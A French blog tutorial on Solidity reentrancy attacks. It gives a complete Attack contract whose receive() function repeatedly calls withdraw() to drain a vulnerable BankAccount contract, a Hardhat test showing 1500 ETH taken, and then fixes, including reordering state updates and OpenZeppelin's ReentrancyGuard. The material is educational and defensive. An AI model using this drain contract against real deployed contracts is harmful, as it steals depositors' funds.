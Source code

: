```yaml
---
layout: '../../layouts/Blog.astro'

title: "Solidity: attaque par re-entrance la suite"
description: "Suite du tutoriel solidity expliquant les attaques de re-entrance avec l'étude d'un cas concret."
blogPost: "Attaque par 'Ré-entrance' (reentrancy)"
image: false
canonical: "https://www.developpement-web3.fr/smart-contract/solidity-reentrancy-attack-suite/"
---
```


## Réalisation d'une attaque par "reentrancy"
 Pour réaliser notre attaque nous devons d'abord créer un nouveau smart contract qui va appeler notre smart contract <b>BankAccount</b>.
                                <br>Créeons pour cela un nouveau smart contract nommé <b>Attack</b> :
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "hardhat/console.sol";
interface InterfaceBankAccount {
  function deposit() external payable;
  function withdraw() external;
}

contract Attack  is Ownable {
  InterfaceBankAccount public immutable bankAccountSmartContractAddress;

  constructor(address _bankAccountSmartContractAddress) {
    bankAccountSmartContractAddress = InterfaceBankAccount(_bankAccountSmartContractAddress);
  }
}
```
  Afin de pouvoir dialoguer avec le smart contract <b>BankAccount</b> nous créeons une interface contenant les deux méthodes que l'on souhaitera appeler,
                                puis lors de l'initialisation de notre nouveau smart contract, nous passons l'adresse du smart contract <b>BankAccount</b> et initialisons ce dernier via notre interface.
                                <br>Puis nous pouvons écrire la méthode qui va permettre d'initier l'attaque :
```solidity
function attack() external payable onlyOwner {
    bankAccountSmartContractAddress.deposit{ value: msg.value }();
    bankAccountSmartContractAddress.withdraw();
  }
```

  Cette méthode réalise tout d'abord un dépôt dans notre <b>BankAccount</b>, puis et c'est là où cela va devenir intéressant, demande un retrait juste après avoir effectué le dépôt.
                               <br>
                                La méthode <b>withdraw</b> du contrat <b>BankAccount</b> va alors exécuter l'opération: <b> payable(msg.sender).sendValue(depositedAmount)</b>, c'est à dire faire une demande d'envoi d'argent à celui qui en fait la demande.
                                <br>Or cette fois, c'est notre smart contract <b>Attack</b> qui est l'origine de la demande, donc c'est lui qui va recevoir les fonds. Jusque là, pas de problème.
                                <br>Lorsqu'un smart contract reçoit des fonds, une méthode <b>receive</b> est automatiquent appelée. C'est dans celle ci que l'on va pouvoir mettre en place notre attaque:
                       
```solidity
receive() external payable {
    if (address(bankAccountSmartContractAddress).balance > 0) {
      // Reentrancy by calling again withdraw
      bankAccountSmartContractAddress.withdraw();
    } else {
      console.log("Transfering money...");
      payable(owner()).transfer(address(this).balance);
    }
  }
```
   Il suffit de ré-écrire la méthode <b>receive</b>, pour que quand elle reçoit de l'argent, elle vérifie si le contrat appelant (<b>BankAccount</b>) contient toujours des fonds (c'est à dire si sa balance est spérieure à 0),
                                 et si c'est le cas, elle rappelle aussitôt la méthode <b>withdraw</b>. C'est ainsi que la récursivité va entrer en jeu et que les fonds vont être vidés.
                                 <br>Ensuite si il n'y a plus de fond disponible, notre smart contract attaquant va demander un tranfert immédiat de tout l'argent récolté vers le compte propriétaire du smart contract attaquant.
                                 <br><br>Wow ! 
                                 <br><br>En fait ceci est possible car dans la méthode <b>withdraw</b> on a d'abord la ligne:
                                 <br> <b>payable(msg.sender).sendValue(depositedAmount)</b> puis la ligne:<br> <b>balanceOf[msg.sender] = 0;</b>
                                 <br>
                                 <br>Donc la méthode payable appelle la méthode receive qui rappelle la méthode withdraw qui redéclenche un payable qui appelle la méthode receive, ... 
                                 C'est seulement lorsque la récursivité finit que la ligne <b>balanceOf[msg.sender] = 0;</b> est exécuté.

## Test de l'attaque par "reentrancy"

   Pour vérifier mes propos, écrivons notre test:

```typescript
import { assert, expect } from "chai";
import { ethers } from "hardhat";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
describe("ReentrancyAttack", function () {
    async function deployFixture() {
      const [owner, attacker, account1,account2,account3] = await ethers.getSigners();
      const BankAccountFactory = await ethers.getContractFactory("BankAccount",owner);
      const bankAccountContract = await BankAccountFactory.deploy();

      const attackFactory = await ethers.getContractFactory("Attack",attacker);
      const attackContract = await attackFactory.deploy(bankAccountContract.address);
      return { bankAccountContract, attackContract,owner, attacker,account1,account2,account3};
    }
  
   
      
    describe("Attack", function () {
      it("Should drains all ETH from bank contract", async function () {
        const { bankAccountContract,attackContract, owner,attacker,account1,account2,account3 } = await loadFixture(deployFixture);
        // Deposit to bank from different accounts
        await bankAccountContract.connect(account1).deposit({ value: ethers.utils.parseEther("500") });
        await bankAccountContract.connect(account2).deposit({ value: ethers.utils.parseEther("500") });
        await bankAccountContract.connect(account3).deposit({ value: ethers.utils.parseEther("500") });
        // check balance before attack 
        let accountBalanceBeforeAttack =  await ethers.provider.getBalance(attacker.address);
        console.log(`BankAccount before : ${ethers.utils.formatEther(await ethers.provider.getBalance(bankAccountContract.address)).toString()}`);
        console.log(`===Attacker balance before : ${ethers.utils.formatEther(accountBalanceBeforeAttack).toString()}`);
       
        await attackContract.attack({ value: ethers.utils.parseEther("500") })
       
        // check balance after attack
        let accountBalanceAfterAttack =  await ethers.provider.getBalance(attacker.address);
        let bankBalanceAfter = await ethers.provider.getBalance(bankAccountContract.address)
        console.log(`BankAccount after : ${ethers.utils.formatEther(bankBalanceAfter).toString()}`);
        console.log(`===Attacker balance after : ${ethers.utils.formatEther(accountBalanceAfterAttack).toString()}`);
        expect(bankBalanceAfter).to.eq(ethers.utils.parseEther("0"));
      });
  
       
    });
    
  });
  ```
   et voici ce que donne l'exécution du test:
```typescript
npx hardhat test 


  ReentrancyAttack
    Attack
BankAccount before : 1500.0
===Attacker balance before : 9999.998937286964659732
Transfering money...
BankAccount after : 0.0
===Attacker balance after : 11499.998820990915721432
      ✔ Should drains all ETH from bank contract (781ms)
```
 Comme on peut le voir, notre smart contract <b>BankAccount</b> a un solde de 0 ETH tandis que celui de l'attaquant a été crédité de +1500 ETH...
                            
## Protection contre l'attaque par "reentrancy"
   Dans le cas étudié pour se protéger de l'attaque, le moyen le plus simple est d'intervertir les 2 lignes <b>balanceOf[msg.sender] = 0</b> et <b> payable(msg.sender).sendValue(depositedAmount)</b> comme ceci:
                          
```solidity
function withdraw() external nonReentrant{
    require(balanceOf[msg.sender] > 0, "Pas de fond a retirer");

    uint256 depositedAmount = balanceOf[msg.sender];
    balanceOf[msg.sender] = 0;
    payable(msg.sender).sendValue(depositedAmount);
  }
```

Ainsi on met le solde de l'appelant à 0 avant de lui envoyer l'argent, donc si ce dernier essaye de rappeller notre méthode de retrait, son solde sera à 0 et la transaction sera rejetée grâce à notre première ligne <b>require</b>
                               <br>Voici ce que donne l'exécution du test:
```typescript
npx hardhat test 


 1) ReentrancyAttack
       Attack
         Should drains all ETH from bank contract:
     Error: VM Exception while processing transaction: reverted with reason string 'Address: unable to send value, recipient may have reverted'
```

Une autre solution aurait été d'implémenter ce que l'on appelle un lock (positionnement d'une variable en entrée et en sortie de fonction et vérification de la valeur du lock avant d'autoriser l'execution de la méthode).
                               <br><br>Mais le plus simple est d'utiliser la librairie [d'OpenZeppelin](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) **ReentrancyGuard** prévue pour ça:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract BankAccount is ReentrancyGuard {
  using Address for address payable;
  mapping(address => uint256) public balanceOf;

  function deposit() external payable  {
    balanceOf[msg.sender] += msg.value;
  }

  function withdraw() external nonReentrant{
    require(balanceOf[msg.sender] > 0, "Pas de fond a retirer");

    uint256 depositedAmount = balanceOf[msg.sender];
    payable(msg.sender).sendValue(depositedAmount);
    balanceOf[msg.sender] = 0;
    
  }
}
```

Il suffit de déclarer toutes les méthodes pour lesquelles on veut éviter la ré-entrance possible avec le mot clé: <b>nonReentrant</b>.
                             <br><br>Et voilà. 
                             <br><br>J'espère que ce tutoriel vous a plu. Pour rappel, vous pouvez trouver le code source de cet article <a href="https://github.com/csurbier/tutoriels-developpement-web3" target="_blank">sur mon GitHub.</a>
                           


Vous pouvez aussi soutenir ce site en envoyant de l'ETH ou du MATIC:

<img style="width: 100px;" src="/img/qr-code.png">


<style>
    p { color: white;!important }
    a { color:darkorange!important}
  </style>